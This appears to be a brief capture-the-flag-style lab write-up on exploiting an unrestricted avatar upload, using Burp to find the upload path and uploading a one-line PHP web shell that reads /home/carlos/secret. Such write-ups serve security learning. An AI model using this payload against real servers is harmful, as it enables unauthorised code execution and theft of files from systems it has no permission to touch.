



### Lab: Remote code execution via web shell upload



When we log in to the website, we notice that there is a function to upload an avatar image.

Let’s try to upload an arbitrary image and view the HTTP history on Burp (filter by MIME type - Images).



Thereafter, we can notice that there is a `GET` request to `/files/avatars/<image_name>`.

Perhaps, we can create a malicious `php` file to read the secret file on `/home/carlos/secret`? :3

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Now, let’s upload the malicious file to the server and execute it on Burp OwO


